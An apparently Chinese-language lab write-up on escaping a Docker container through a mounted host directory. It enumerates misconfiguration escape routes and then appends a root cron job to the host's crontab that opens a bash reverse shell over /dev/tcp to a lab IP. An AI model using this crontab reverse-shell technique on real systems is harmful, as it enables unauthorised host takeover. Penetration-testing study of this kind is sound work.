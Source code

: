 Container escape to the host system

容器逃逸到主机系统

地址：http://192.168.86.139:1233/

查看目录以及标签，应该是需要从docker逃逸到真实机器

这个也类似于实战

在实战中：

1、判断当前shell权限\[如果不是root需要提权\]

2、判断当前是在k8s还是docker中

判断环境

![image-20231120170301134](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170301134.png)

发现是在docker

```sshell
mount \| grep '/ type'
```

![image-20231120170304868](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170304868.png)

 

一般在docker中逃逸分为

1、docker版本漏洞

2、宿主机漏洞

3、管理人员配置不当产生的漏洞

 

我们先使用第三种

第三种\[管理人员配置不当产生的漏洞\]：

1、特权启动

2、Docker Socket

3、procfs逃逸

4、目录挂载

 

这里我们从最简单的开始目录挂载\[输入以下命令\]

```shell
mount \| grep 'type fuse'

Or

df -h
```

![image-20231120170330334](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170330334.png)

发现挂载目录是/host-system

![image-20231120170334805](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170334805.png)

 

得到真实机器命令，这里我们可以写入用户或者是反弹shell

 

```shell
cat /host-system/etc/crontab
```

![image-20231120170421253](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170421253.png)

生成在线反弹shell

[Online - Reverse Shell Generator (taoyuan.cool)](https://taoyuan.cool/shell/)

 

 

```shell
echo "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1" \>\>/host-system/etc/crontab
```

![image-20231120170425159](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170425159.png)

 

写入成功

![image-20231120170434911](C:\Users\12095\AppData\Roaming\Typora\typora-user-images\image-20231120170434911.png)

 

拿到真实机器shell
